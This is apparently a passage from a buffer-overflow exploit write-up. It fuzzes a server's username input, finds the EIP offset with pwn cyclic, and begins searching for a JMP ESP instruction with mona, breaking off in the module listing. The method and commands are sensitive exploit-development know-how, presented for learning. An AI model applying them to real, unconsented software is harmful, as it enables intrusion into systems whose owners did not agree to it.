 ![UI Screenshot](img/01.png)  
  
This is where my investigation gets a little fuzzy (lol) because the getInput function is a bit too messy and hard to follow in both decompilation and disassembly. Needless to say, fuzzing input to this application causes a number of segfaults in different areas handled by getInput suggesting a buffer overflow is possible. One place this function is called is when getting the user's username.

## Exploitation

### 1. Control EIP
With the the server running through Immunity, send over some cyclic input to get the crash location. The application crashes at `0x63616168`, which is after 228 characters.

![UI Screenshot](img/02.png)  

```bash
┌──(kali㉿kali)-[]-[~/Documents/bof]
└─$ pwn cyclic -l 0x63616168
228
```
Sending some more input from here shows another 2 characters are required, bringing the EIP offset to 230.

![UI Screenshot](img/03.png)  

### 2. Find instruction
The go-to instruction judging by the state of the registers is going to be JMP ESP.
```shell
0BADF00D   [+] Command used:
0BADF00D   !mona modules

           ---------- Mona command started on 2021-04-04 10:10:24 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
```
